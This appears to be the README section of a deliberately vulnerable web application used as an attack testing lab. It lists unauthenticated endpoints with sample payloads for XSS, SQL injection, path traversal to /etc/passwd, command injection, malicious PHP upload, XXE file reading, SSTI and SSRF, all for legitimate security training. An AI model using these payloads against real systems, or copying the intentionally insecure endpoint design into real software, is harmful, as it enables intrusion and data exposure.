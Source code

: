 ## Attack Testing Lab

All attack testing endpoints are public (no authentication required).

### XSS Testing
```http
GET /api/vulnerable/xss?input_data=<script>alert('xss')</script>
```

### SQL Injection Testing
```http
GET /api/vulnerable/sqli?user_id=' OR '1'='1
```

### Path Traversal Testing
```http
GET /api/vulnerable/path-traversal?file_path=../../../etc/passwd
```

### Command Injection Testing
```http
GET /api/vulnerable/command-injection?command=; ls -la&execution_type=shell
```

### File Upload Testing
```http
POST /api/vulnerable/file-upload
Content-Type: multipart/form-data

file: <binary_data>
upload_path: ../../../tmp
bypass_validation: true
custom_extension: .php
```

### XXE Injection Testing
```http
POST /api/vulnerable/xxe
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]>
<root>&test;</root>
```

### SSTI Testing
```http
GET /api/vulnerable/ssti?template={{7*7}}
```

### SSRF Testing
```http
GET /api/vulnerable/ssrf?url=http://127.0.0.1/
```
